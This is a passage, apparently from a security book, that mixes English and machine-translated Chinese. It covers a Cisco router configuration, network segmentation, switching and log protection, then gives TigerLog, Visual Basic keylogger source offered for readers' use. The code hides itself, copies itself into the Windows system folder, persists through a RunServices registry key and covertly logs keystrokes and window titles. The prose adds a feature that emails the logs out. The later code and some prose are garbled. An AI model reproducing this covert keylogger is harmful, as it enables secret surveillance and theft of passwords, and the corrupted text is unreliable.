!
ip inspect name Serial_0 tcp
ip inspect name Serial_0 udp
ip inspect name Serial_0 cuseeme
ip inspect name Serial_0 ftp
ip inspect name Serial_0 h323
ip inspect name Serial_0 rcmd
ip inspect name Serial_0 realaudio
ip inspect name Serial_0 smtp
ip inspect name Serial_0 streamworks
ip inspect name Serial_0 vdolive
ip inspect name Serial_0 sqlnet
ip inspect name Serial_0 tftp
!
interface Ethernet 0
 no shutdown
 description connected to Ethernet LAN
 ip address 172.29.41.1 255.255.255.0
 ip inspect Ethernet_0 in
 ip access-group 100 in
 keepalive 10
!
interface Serial 0
 no shutdown
 description connected to Remote network
 ip address 172.29.42.1 255.255.255.252
 ip inspect Serial_0 in
 ip access-group 101 in
 encapsulation hdlc
!
! Access Control List 100
!
access-list 100 deny ip 172.29.42.0 0.0.0.3 any
access-list 100 deny ip 172.29.43.0 0.0.0.255 any
access-list 100 permit udp any eq rip any eq rip
access-list 100 permit ip any 172.29.42.0 0.0.0.3
access-list 100 permit ip any 172.29.43.0 0.0.0.255
!
! Access Control List 101
!
access-list 101 deny ip 172.29.41.0 0.0.0.255 any
access-list 101 permit udp any eq rip any eq rip
access-list 101 deny tcp any 172.29.41. 0 0.0.0.255 eq 23
access-list 101 deny tcp any 172.29.41.0 0.0.0.255 eq 107
access-list 101 permit ip any 172.29.41.0 0.0.0.255
!
router rip
 version 2
 network 172.29.0.0
 no auto-summary
!
!
ip classless
no ip http server
snmp-server community local RO
no snmp-server location
no snmp-server contact
!
line console 0
 exec-timeout 0 0
 password 7 password
 login
!
line vty 0 4
 password 7 password
 login
```

请向您的供应商咨询具体的防泛洪程序。许多本地 Web 管理界面或控制台 GUI 使这种自定义需求变得更加简单。请仔细查看图 4.6 中 NetScreen 的点选系统。

尽管许多互联网服务提供商通常会阻止 ICMP 等泛洪技术（实际上是进行过滤，以允许这些数据包在特定阈值下通过），但一般来说，您应该考虑在 perimeter 防火墙上关闭 PING，或者使用网关和/或路由器阻止这些数据包。

这里还需要提及另一种流行的泛洪攻击利用方式：**广播**。广播是一种向所有方向传输数据的方式。大多数通信协议都支持广播功能，以便向网络中的每个节点发送消息；因此，将大型网络设计为使用网桥和路由器连接的更小的互联网络非常重要，因为更小的网络划分或分段可以创建独立的广播域。想象一下一个拥有 250 个节点的单一网络遭受广播泛洪攻击。攻击者可以轻易使网络带宽不可用。通过适当的分段，网桥和路由器可以通过不跨接口转发这些传输来简单地过滤广播泛洪。总的来说，这种阻止功能是默认隐含的。另外请记住，您可以在某些情况下也应当使用数据包嗅探器来补充这一安全保障措施。

#### 分段

**分段** 在网络通用术语中是指划分网段的过程，目的是减少冲突域、广播域和组播域；增加可用带宽；或者只是为了按逻辑分组资源。除了分段之外，可能还需要连接到超出拓扑推荐规范的设备（例如以太网到令牌环）。不同的设备提供了解决每个问题的功能。

#### 中继器

中继器的设计目的是扩展给定拓扑的物理距离。一般来说，中继器接收传入的信号并通过放大来再生信号。这有助于克服距离限制，但并不能分割网络。这意味着所有流量仍然可以被该网段上的所有设备看到。

中继器也可能引入额外的问题，并使故障排除变得更加困难。当信号再生时，任何"噪声"都有可能与信号一起被放大。此外，某些设备无法很好地处理增加的延迟。可能会出现超时或其他问题。

#### 网桥

网桥工作在 OSI 模型的第 2 层，可以分割冲突域、组合两个独立的网段，或者可以用作中继器的一种形式（然而，在此过程中冲突域将被分割，并会创建两个网段）。转发决策基于 MAC 地址做出。配置可以包括对特定类型流量的过滤。


 fic, including SAP and ARP. Although there are multiport bridges, most are one-to-one.

Bridges, which are software-based, introduce additional latency of up to 30 percent for some applications. This delay can cause some applications to time out or even lose connectivity. Because of these issues (as well as the per-port cost), most of today's networks use combinations of hubs and switches to break up their collision domains. (Note: Even though the collision domains are broken up, it is important to understand that broadcasts will still be forwarded.)

#### Routers

Routers were designed primarily to breakup broadcast domains, control multicast traffic, allow connectivity between different network topologies and technologies, provide network security, and allow network traffic decisions to be made based on logical rather than physical address.

#### Switches

Switches were initially designed primarily to overcome the issues associated with repeaters, bridges, and hubs. Like bridges, switches break up collision domains, but because forwarding decisions are hardware-based, they reduce the latency that is introduced when bridges are used. In effect, switches are like multiport bridges. Because switches use hardware-based forwarding, they can forward at "line (or wire) speed" unlike bridges. Like bridges, switches use the MAC address to make forwarding decisions; unlike bridges, switches can use CPUs, and/or application-specific integrated circuits (ASICs). By using ASICs, higher speeds can be achieved at lower per-port costs.

#### ASICs

Like most other technologies, switches have evolved over time. Early switches (although hardware-based) functioned very similarly to bridges, but they did not have many features and were slow and expensive. This was due primarily to the fact that they were CPU-based, which meant they were dependent upon the current CPU technology and costs.

Application-specific integrated circuits (ASICs) were designed for a specific function/application, for example, telephone switching devices, handheld computers, environmental controls, or networking protocols. ASICs, as they relate to switching, were designed to provide a lower-cost, higher-speed alternative to general processors for the purposes of "switching" data frames. Today, the capability exists to switch data using layers 2-4 of the OSI model.

#### Layer 2 Switching

Layer 2 switches use the MAC addressInclusive address to forward frames toward their destination. When the Data Link layer receives a packet, it is encapsulated into a frame. This frame is sent over the wire by the Physical layer as a series of 1s and 0s. The receiving device (another switch, node, etc.) accepts the series of 1s and 0s and starts the reverse process. The 1s and 0s are accepted as a frame, after which the frame is discarded and the packet is sent to the Network layer. Since switches make their decisions based on the MAC address, the contents of the frame are not viewed.

For example, the request from computer A is sent to the switch. The switch ASIC reads the destination MAC address and enters the source address in its filter table to allow future lookups to be performed. The address is then matched against the filter table; if a match is found, the frame is forwarded to the appropriate port on the switch. If no match is found, a broadcast is sent out to find the device.

Broadcasts are still forwarded to all devices if no virtual local area networks (VLANs) are in use. VLANs are discussed later in this chapter.

Layer 2 switches have the following benefits:

- High-speed frame forwarding
- Breakup collision domains
- Reduced latency compared to routers and layers 3 and 4 switches
- Reduced cost
- Options can include VLANs and manageability

#### Layer 3 Switching

Layer 3 switches can perform the same functions as routers, but their implementation of technology is different. Unlike traditional routers, layer 3 switches can perform routing functions approaching switching speeds by using hardware based packet forwarding. Since layer 3 switches are hardware-based (using the ASICs), rather than software-based, these decisions can occur at much greater speeds.

Layer 3 switches generally have all the benefits of layer 2 switches, plus others:

- Logical address, hardware-based forwarding
- High-speed packet forwarding
- Breakup collision and broadcast domains
- Multicast domain control
- Quality of service (QoS)
- Reduced per-port cost
- Options can include VLANs and manageability

#### Layer 4 Switching

Layer 4 switches are also hardware-based and have the features of layer 2 and 3 switches, but they can also make forwarding decisions based on layer 4 information. For example, TCP or UDP port information can be used to make forwarding decisions. Therefore, layer 4 switching is also sometimes referred to as *application switching*. This is because decisions can be made based on application information such as FTP, SMTP, and HTTP. Layer 4 switching is also very useful in establishing quality of service (QoS) on a per-user, -group, or even -application level. For example, Voice over IP (VoIP) and streaming audio/video are sensitive to delays. An administrator using layer 4 switching can set those types of traffic to a higher priority than other traffic.

Layer 4 switches generally have all the benefits of layer 2 and 3 switches, plus:

- User- and group-based QoS
- Application-based traffic decisions

#### Multilayer Switching

Multilayer switching (MLS) provides all the benefits of Layers 2, 3, and 4 switching in a high-speed, low-latency device. It uses "route once, switch many" technology. This means it reads information necessary to make a determination of the destination (routing decision) and then uses switching technology to switch additional information where possible. This is also referred to as *netflow switching*. Routing and/or switching can occur using MAC addresses (Data Link layer), logical address (Network layer), or application (port) information (Transport layer) information fading.

#### Switch Forwarding Protocols

Switches use four general types of switching protocols.

**Store and Forward.** Reads the entire frame before making any forwarding decisions. This is the slowest method, but has the benefit of not forwarding "bad packets," because a cyclical redundancy check (CRC) is performed.

**Fragment-free.** Reads the frame up to the end of the data (first 64 bytes) and forwards the data without running a cyclical redundancy check (CRC).

**Cut-through (also referred to as fast-forward).** Reads just the destination MAC address and forwards the frame. This is the fastest method, but it does not ensure the integrity of the frame.

**Adaptive.** A combination of other switch forwarding protocols. A switch may start out in cut-through or fragment-free mode and change to store and forward. It does this by checking frames as they pass through the switch. Even though the frame has been forwarded, the switch will check the frame. If, when frames are checked, there have been more than an acceptable number of "bad frames," the switch will automatically switch to store and forward.

### Defending against Log Bashing

Log bashing is the intruder's modus operandi of audit trail editing, to remove all signs of trespassing activity on a target system. They commonly use cloaking software for this purpose, using programs designed to seek out and destroy logs, logger files, stamps, and temp files.

In this section we'll talk about ways to secure against some log bashing techniques, including backup methods to use to ensure logging functionality. Logging can be an invaluable tool for gathering litigation evidence against hack attacks, as well as for troubleshooting potential system modification conflicts. There are also logical technical procedures that can help fortify these logs, as well as ways to implement redundancy.

Logging is an important function of operating systems, internetworking hardware, and service daemons. Having such information as configuration modifications, operational status, login status, and processing usage can save a great deal of troubleshooting and security investigation time. System, browser, terminal, and daemon function logging should be part of the day-by-day information system procedures. For example, browser logs are stored in the following directories, for daily backup and archival:

- NETSCAPE
  - /Netscape/Users/default/cookies.txt
  - /Netscape/Users/default/netscape.hst
  - /Netscape/Users/default/prefs.js
  - /Netscape/Users/default/Cache/*.*
- INTERNET EXPLORER
  - /Windows/Tempor~1/index.dat
  - /Windows/Cookies/index.dat


 ```
/Windows/History/index.dat

/win386.swp
```

服务器守护进程日志记录管理起来要容易得多，可以通过 Access、Oracle 和 SQL 等数据库基础进行查询，也可以直接访问文件，如图 4.7 中的示例所示。根据使用情况，日志应**定期**备份和归档。请注意，URL 监控、FTP 访问和浏览器/代理日志可能需要双倍的工作量。

日志攻击造成的首要问题是，在未经授权的渗透后日志被删除或规避。因此，让我们讨论一下**隐蔽日志技术**。除了上述熟悉的日志记录程序之外，限制访问的隐藏日志记录（即，仅授予少数受信任的管理员）是一种优秀的方法。然而，在某些情况下，可能需要或将隐蔽日志记录职责分配给互不交互的多个人员。不同的视角可以改善冲突解决。无论如何，限制访问的隐蔽日志记录可以作为一种老虎技术来实施，以监控谁在使用您的计算机（例如，受限制的用户，如幼儿），并跟踪所有手动活动。



## 图 4.7 自定义服务守护进程日志功能。

尽管记录器可能相当复杂，但它们相对容易编写代码，而且有数百种免费软件、共享软件和商业软件包随时可用。如需快速下载和评估，请在 C|Net (http://download.cnet.com)、TuCows (www.tucows.com)、The File Pile (http://filepile.com/nc/start)、Shareware.com (www.shareware.com) 和 ZDNet (www.zdnet.com/downloads) 上搜索 Windows 和 *NIX 记录器。以下是一些最流行的程序：

- 隐蔽活动记录与报告器 (STARR)，由 IOPUS Software (www.iopus.com) 开发
- Invisible KeyLogger，由 Amecisco (www.amecisco.com) 开发
- KeyInterceptor，由 UltraSoft (www.ultrasoft.ro) 开发
- Ghost KeyLogger，由 Sure Shot (http://sureshot.virtualave.net) 开发
- KeyLogger，由 DGS Software (www.dgssoftware.co.uk) 开发

家庭用户和/或私人用户也可以自定义 TigerLog（图 4.8）以实现完整的隐藏键盘记录控制。TigerLog 提供了修改要秘密捕获的有效按键的能力；更改可见会话嗅探器激活键序列（当前为 Shift+F12）；更改默认日志文件名和位置（//Windows/System/TigerLog.TXT）；以及当日志已满时通过 SMTP 服务器（mail.mailserver.net）将日志文件内容发送到电子邮件地址（someone@mailserver.com）。以下是最新的 TigerLog 编译版本，供您使用。



**图 4.8** TigerLog（可见会话嗅探器模式），用于自定义隐蔽系统活动监控和按键记录。

```
TigerLog

Private Declare Function GetAsyncKeyState Lib "user32" Alias
  "GetAsyncKeyState" (ByVal vKEY As Long) As Integer
Private Declare Function GetKeyState Lib "user32" (ByVal nVirtKey As
  Long) As Integer
Private Declare Function RegOpenKeyExA Lib "advapi32.dll" (ByVal hKey As
  Long, ByVal lpSubKey As String, ByVal ulOptions As Long, ByVal
  samDesired As Long, phkResult As Long) As Long
Private Declare Function RegSetValueExA Lib "advapi32.dll" (ByVal hKey
  As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal
  dwType As Long, ByVal lpValue As String, ByVal cbData As Long) As Long
Private Declare Function RegCloseKey Lib "advapi32.dll" (ByVal hKey As
  Long) As Long
Private Declare Function RegisterServiceProcess Lib "Kernel32.dll"
  (ByVal dwProcessID As Long, ByVal dwType As Long) As Long
Private Declare Function GetForegroundWindow Lib "user32.dll" () As Long
Private Declare Function SetWindowPos Lib "user32" (ByVal hWnd As Long,
  ByVal hWndInsertAfter As Long, ByVal X As Long, ByVal Y As Long, ByVal
  cX As Long, ByVal cY As Long, ByVal wFlags As Long) As Long
Private Declare Function GetWindowText Lib "user32" Alias
  "GetWindowTextA" (ByVal hWnd As Long, ByVal lpString As String, ByVal
  cch As Long) As Long
Private Declare Function GetWindowTextLength Lib "user32" Alias
  "GetWindowTextLengthA" (ByVal hWnd As Long) As Long
Private Declare Function GetComputerName Lib "kernel32" Alias
  "GetComputerNameA" (ByVal lpBuffer$, nSize As Long) As Long
Private Declare Function GetUserName Lib "advapi32.dll" Alias
  "GetUserNameA" (ByVal lpBuffer As String, nSize As Long) As Long
Private Const VK_CAPITAL = &H14
Const REG As Long = 1
Const HKEY_LOCAL_MACHINE As Long = &H80000002
Const HWND_TOPMOST = -1
Const SWP_NOMOVE = &H2
Const SWP_NOSIZE = &H1
Const flags = SWP_NOMOVE Or SWP_NOSIZE
Dim currentwindow As String
Dim logfile As String
Public Function CAPSLOCKON () As Boolean
Static bInit As Boolean
Static bOn As Boolean
If Not bInit Then
While GetAsyncKeyState(VK_CAPITAL)
Wend
bOn = GetKeyState(VK_CAPITAL)
bInit = True
Else
If GetAsyncKeyState(VK_CAPITAL) Then
While GetAsyncKeyState(VK_CAPITAL)
DoEvents

Wend
bOn = Not bOn
End If
End If
CAPSLOCKON = bOn
End Function
```

```
Private Sub Command1_Click()
Form1.Visible = False
End Sub
```

```
Private Sub Form_Load()
    If App.PrevInstance Then
        Unload Me
    End
    End If
    HideMe
    Hook Me.hWnd
Dim mypath, newlocation As String, u
currentwindow = GetCaption(GetForegroundWindow)
mypath = App.Path & "\ " & App.EXEName & ".EXE" 'application name
newlocation = Environ("WinDir") & "\system\ " & App.EXEName & ".EXE"
On Error Resume Next
If LCase(mypath) <> LCase(newlocation) Then
FileCopy mypath, newlocation
End If
u = RegOpenKeyExA(HKEY_LOCAL_MACHINE, "Software\ Microsoft\ Windows\
  CurrentVersion\ RunServices", 0, KEY_ALL_ACCESS, a)
u = RegSetValueExA(a, App.EXEName, 0, REG, newlocation, 1)
u = RegCloseKey(a)
logfile = Environ("WinDir") & "\system\ " & App.EXEName & ".TXT"
  'application name.txt in Windows\ system
Open logfile For Append As #1
Write #1, vbCrLf
Write #1, "[Log Start: " & Now & "]"
Write #1, String$(50, "-")
Close #1
End Sub
```

```
Private Sub Form_Unload(Cancel As Integer)
    UnHook Me.hWnd
    texter$ = Text1
    Open logfile For Append As #1
    Write #1, texter
    Write #1, String$(50, "-")
    Write #1, "[Log End: " & Now & "]"
    Close #1
End Sub
```

```
Private Sub Timer1_Timer()
If currentwindow <> GetCaption(GetForegroundWindow) Then

currentwindow = GetCaption(GetForegroundWindow)
Text1 = Text1 & vbCrLf & vbCrLf & "[" & Time & " - Current Window: " &
    currentwindow & "]" & vbCrLf
End If
'form activation by shift + f12
Dim keystate As Long
Dim Shift As Long
Shift = GetAsyncKeyState(vbKeyShift)

'valid keys to capture
keystate = GetAsyncKeyState(vbKeyA)
If (CAPSLOCKON = True And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = False And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "A"
End If
If (CAPSLOCKON = False And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = True And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "a"
End If

keystate = GetAsyncKeyState(vbKeyB)
If (CAPSLOCKON = True And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = False And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "B"
End If
If (CAPSLOCKON = False And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = True And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "b"
End If

keystate = GetAsyncKeyState(vbKeyC)
If (CAPSLOCKON = True And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = False And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "C"
End If
If (CAPSLOCKON = False And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = True And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "c"
End If

keystate = GetAsyncKeyState(vbKeyD)
If (CAPSLOCKON = True And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = False And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "D"
End If
If (CAPSLOCKON = False And Shift = 0 And (keystate And &H1) = &H1) Or
    (CAPSLOCKON = True And Shift <> 0 And (keystate And &H1) = &H1) Then
Text1 = Text1 + "d"
End If

keystate = GetAsyncKeyState(vbKeyE)
```


如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "E"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "e"
结束 如果

keystate = Getasynckeystate(vbKeyF)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "F"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "f"
结束 如果

keystate = Getasynckeystate(vbKeyG)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "G"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "g"
结束 如果

keystate = Getasynckeystate(vbKeyH)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "H"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "h"
结束 如果

keystate = Getasynckeystate(vbKeyI)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "I"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "i"
结束 如果

keystate = Getasynckeystate(vbKeyJ)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "J"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "j"
结束 如果

keystate = Getasynckeystate(vbKeyK)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "K"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "k"
结束 如果

keystate = Getasynckeystate(vbKeyL)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "L"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "l"
结束 如果

keystate = Getasynckeystate(vbKeyM)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "M"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "m"
结束 如果

keystate = Getasynckeystate(vbKeyN)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "N"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "n"
结束 如果

keystate = Getasynckeystate(vbKeyO)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "O"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "o"
结束 如果

keystate = Getasynckeystate(vbKeyP)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "P"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "p"
结束 如果

keystate = Getasynckeystate(vbKeyQ)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "Q"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "q"
结束 如果

keystate = Getasynckeystate(vbKeyR)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "R"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "r"
结束 如果

keystate = Getasynckeystate(vbKeyS)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "S"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "s"
结束 如果

keystate = Getasynckeystate(vbKeyT)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "T"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "t"
结束 如果

keystate = Getasynckeystate(vbKeyU)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "U"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "u"
结束 如果

keystate = Getasynckeystate(vbKeyV)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "V"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "v"
结束 如果

keystate = Getasynckeystate(vbKeyW)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "W"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "w"
结束 如果

keystate = Getasynckeystate(vbKeyX)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "X"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "x"
结束 如果

keystate = Getasynckeystate(vbKeyY)
如果（CAPSLOCKON binding。 
   （CAPSL
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "Y"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "y"
结束 如果

keystate = Getasynckeystate(vbKeyZ)
如果（CAPSLOCKON = 真 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 假 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "Z"
结束 如果
如果（CAPSLOCKON = 假 且 Shift = 0 且（keystate 与 &H1）= &H1）或
   （CAPSLOCKON = 真 且 Shift <> 0 且（keystate 与 &H1）= &H1）则
    Text1 = Text1 + "z"
结束 如果

keystate = Getasynckeystate(vbKey1)
如果 Shift = 0 且（keystate 与 &H1）= &H1 则
    Text1 = Text1 + "1"
结束 如果
如果 Shift <> 0 且（keystate 与 &H1）= &H1 则
    Text1 = Text1 + "!"
结束 如果

keystate = Getasynckeystate(vbKey2)
如果 Shift = 0 且（keystate 与 &H1）= &H1 则
    Text1 = Text1 + "2"
结束 如果
